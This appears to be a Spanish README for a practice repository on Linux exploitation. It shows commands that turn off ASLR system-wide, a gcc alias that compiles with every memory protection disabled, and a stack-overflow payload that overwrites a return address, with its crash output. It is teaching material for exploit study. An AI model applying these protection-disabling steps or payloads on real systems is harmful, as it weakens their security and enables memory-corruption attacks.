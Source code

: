 # Repositorio para practicar con Linux Exploiting

Desactivar mecanismo de aleatorización de posiciones de memoria
    echo 0 > /proc/sys/kernel/randomize_va_space
Reactivar
    echo 2 > /proc/sys/kernel/randomize_va_space

```bash
setarch `arch` -R ./ejemplo argumentos
```
```bash
setarch `uname -m` -R ./ejemplo argumentos
```

## Comando para compilar los ejemplos del libro

    gcc -fno-stack-protector -D_FORTIFY_SOURCE=0 -z norelro -z execstack fichero_fuente.c -o fichero_salida
    alias gcc-exploit='gcc -fno-stack-protector -D_FORTIFY_SOURCE=0 -z norelro -z execstack'
Ver lo que ocupan las secciones de un programa ejecutable
    size ./ejemplo
Consultar el código ensamblador de un programa
    objdump -d

Buscar la función func en el código ensamblador del programa
    objdump -d ejemplo | grep func

```
vagrant@vagrant-ubuntu-trusty-32:~$ objdump -d ejemplo | grep func
0804848d <func>:
 80484f5:	e8 93 ff ff ff       	call   804848d <func>
vagrant@vagrant-ubuntu-trusty-32:~$ ./ejemplo `perl -e 'print "A"x44 . "\x8d\x84\x04\x08"x4'`

Bienvenido a Linux Exploiting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����


Bienvenido a Linux Exploiting U���8��D$�E؉$�����E؉D$�$��x�����U�������t!�E
                                                                          �

Segmentation fault (core dumped)
```
